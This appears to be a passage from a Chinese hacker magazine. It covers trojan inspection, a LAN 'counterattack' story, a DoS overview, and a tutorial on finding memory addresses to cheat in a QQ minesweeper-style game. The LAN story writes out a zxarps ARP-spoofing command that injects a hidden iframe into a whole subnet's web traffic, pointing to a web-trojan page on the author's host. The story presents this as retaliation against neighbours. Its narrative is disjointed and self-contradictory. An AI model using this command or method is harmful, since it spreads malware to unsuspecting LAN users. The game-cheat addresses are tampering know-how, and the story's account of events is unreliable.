

好的，既然都找到你了，也确定了你是病毒，那我就不得不做点文章了！怎么也得从这个木马中得到点信息。于是我将这个木马载入到了 C32ASM 中，选择 16 进制编辑，加载后，鼠标点击程序中的 QQ 图标，果然是被改过的。修改后的信息一看，都是些无用的内容。









提示：没有发现也就没发现了。之前都写得很清楚，果然真的没错，先分析注册表，再找到了一些木马配置文件里的信息，接着修改了运行参数，最后在 QQ 中留下签名。这个过程看似简单，但其实还是挺有意思的。

#### 局域网反击战



从本文您可以学到：

- 如何通过 xarps 和 irc 扫马

因为我在外地上学，所以是在学校外面租的房子，这样就避免和别人共用一个网。最近局域网里总是有人肆意占网速，我就不爽，要反击一下。用过虚拟网的一些法子，能想到的办法都想了，这时候我找到了 ARP 扫马。发现有人使用了一个免杀木马，把我机中的 ASP 搭建成服务器。安装过程都很简单，一路“下一步”就 OK 了。我找了找以前的网马程序，生成网马然后放到服务器里。这里要用到“zxarps”进行 arp 数据处理，采用“zxarps”的方式先安装 WinPcap_4.0，然后在 cmd 下切换到 zxarps 所在目录，执行命令：

```bash
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.254 -port 80 -insert "<iframe src='http://192.168.0.101/wangma.html' width=0 height=0>"
```

然后在 cmd 下切换到 zxarps 所在目录，执行命令。安装也很简单，这里就不赘述了。开启后扫描了局域网中的几百台主机，后来找到了一个实验服务器，做了一些简单的操作，最后我们就把这个局域网的安全隐患给解决了。

## 基础 | Q版黑客

### 2010 第一季

#### 漫谈 DoS

从本文您可以学习：了解 DoS 的基本知识。

今天和大家再次聊聊 DoS（拒绝服务）攻击。网络上的终端（包含个人和服务器）都属于资源子系统，内网中的某些目标本来就容易受到攻击性影响，而 DoS 正是利用这个弱点。详细内容包括：造成网页不可访问、访问延迟、服务拒绝等问题。

DoS 是一种使目标服务无法正常工作的攻击手段，常见方式包括请求洪泛、带宽耗尽、资源耗尽等。文中提到利用 `zxarps.exe`、`dsniff`、`arp spoofing` 等工具进行测试与分析，并说明 ARP 攻击、DNS 欺骗、SYN 洪泛等常见情形。

在局域网中进行嗅探的人，如果一无所获而变得愤怒，他可以用很多方法造成 DoS。例如把正常的支持系统（MAC 和 IP、IP 协议层）进行错误转向，而不是对数据流进行正常转发，这就可能造成数据包到达服务端时产生额外消耗，从而影响服务。

编辑点评：拙劣的方式不应被模仿，安全演练也应在合法边界内进行。技术上即使不成熟，也不建议随意复现攻击行为。

本文还会从另一种角度讲解 DoS 的防护方式，包括如何通过合理配置、流量监测、加固服务和提高服务端健壮性来降低被攻击的风险。对于 Windows、WebShell、ARP 攻击等内容，文中给出了若干应对思路。

编辑点评：这是一段经验性的文字，但它向你展示了 DoS 的另一面，让你能更深入地理解 DoS。

## 外挂开发入门篇

### —— QQ 挖金子小挂实战

从本文您可以学习到：

- 了解编写外挂的一般思路
- 实战编写外挂

学习逆向分析和外挂编程也有一段时间了，我总结了外挂开发的基本思路和一些初级技法与技巧。



## Q版黑客 | Rudiment

### 2010 第一季

本篇主要介绍如何使用工具进行游戏数据分析、查找游戏中的数值信息，并通过工具辅助定位目标数据。

- 窗口查找
- 获得窗口信息
- 寻找游戏进程
- 寻找游戏进程内存
- 扫描变化的数值
- 追踪 call 调用等





通过学习和交流，我发现用简单的小游戏入门还是很容易的。下面就以 QQ 轮子游戏为例，给大家分享我的入门经验吧。

### 第一部分：游戏调试篇

在开始编程之前，首先是对游戏进行分析，获得游戏基本信息和数据内存地址，这一步需要有一定的逆向工程能力和耐心。

第一步：游戏窗口信息的获取。首先是获得窗口标题信息，我们可以用 SPY++ 这类工具进行分析。找到工具后拖动 Spy4Win 到游戏窗口上即可看到窗口信息。



第二步：游戏内存地址的获取。分析游戏数据在内存中的地址比较重要，常用方法包括扫描数值、追踪数据变化等。





方法如图：首先设置扫描类型为“未知初始数值”，然后点击“首次扫描”进行数据搜索，再通过数值变化筛选结果。





然后会发现它们在 CE 里被搜到，接着在结果中双击可进行地址追踪和实时查看。

如图 7 所示，那么座位号基址就是：`0043E1F4`。下面我们来查找其他数据，方法与前面类似。游戏开始以后，时间的值会逐渐减少，那我们就可以用 CE 查找“减少的数值”进行筛选，如图 8 所示。时间的基址就是：`0043E0A9`，下面再查剩余的数据地址。

一开始我找这个地址的时候有点麻烦，方法是这样的：在 CE 中进行多次“数值变化”扫描，并结合点击“取消”等操作观察地址变化。多次跟踪后进行筛选，发现三个基址，也发现一个规律：踩雷后这三个地址的变换均为 1，未踩雷或者点击“取消”后这三个数据都会回到 0。因此，大家在找这三个基址的时候，可以使用这个规律进行快速查找，如图 9 所示。

踩雷的基址就是：`0043C698`、`0043C788`、`0043E08C`。这里你已经想到了，只要让这 3 个地址的数据始终为 0，就可以实现踩雷不死。呵呵，得到了这些游戏数据在内存中的地址后，我们可以通过编程来实现外挂功能了。

